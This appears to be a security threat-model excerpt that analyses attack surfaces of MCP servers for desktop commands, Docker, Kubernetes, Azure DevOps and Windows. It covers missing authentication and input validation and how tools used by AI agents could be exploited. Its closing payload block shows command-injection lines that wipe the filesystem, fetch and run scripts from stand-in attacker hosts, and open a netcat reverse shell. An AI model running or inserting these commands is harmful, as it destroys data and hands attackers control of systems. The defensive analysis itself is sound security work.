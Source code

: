 
## ATTACK SURFACE ANALYSIS

### Primary Attack Surfaces

#### 1. MCP Server Infrastructure
- **Desktop Commander MCP**: File system access, command execution
- **Docker MCP**: Container orchestration, privileged operations
- **Kubernetes MCP**: Cluster management, resource control
- **Azure DevOps MCP**: CI/CD pipeline access, repository control
- **Windows System MCP**: System administration, service control

#### 2. Authentication & Authorization Layer
- **Critical Gap**: No authentication required for any operations
- **Impact**: Complete bypass of access controls
- **Risk**: Immediate privilege escalation

#### 3. Input Validation Layer
- **Critical Gap**: No input sanitization across all modules
- **Impact**: Direct command/code injection
- **Risk**: Remote code execution

#### 4. Network Communications
- **Exposure**: All inter-service communications unencrypted
- **Impact**: Man-in-the-middle attacks, credential interception
- **Risk**: Complete session hijacking

---

## ATTACK VECTOR ANALYSIS

### Critical Attack Vectors

#### 1. Remote Code Execution Chain
```
Attacker → Unsanitized Input → Command Injection → System Shell → Full Control
```

**Entry Points:**
- Desktop Commander: `execute_command()` function
- Windows System: `powershell_command()` function
- Docker: `docker_run()` command injection
- Kubernetes: `kubectl` command manipulation

**Payloads:**
```bash
# Command injection examples
; rm -rf /
&& curl evil.com/shell.sh | bash
`wget malicious.com/backdoor && ./backdoor`
$(nc attacker.com 4444 -e /bin/bash)
```
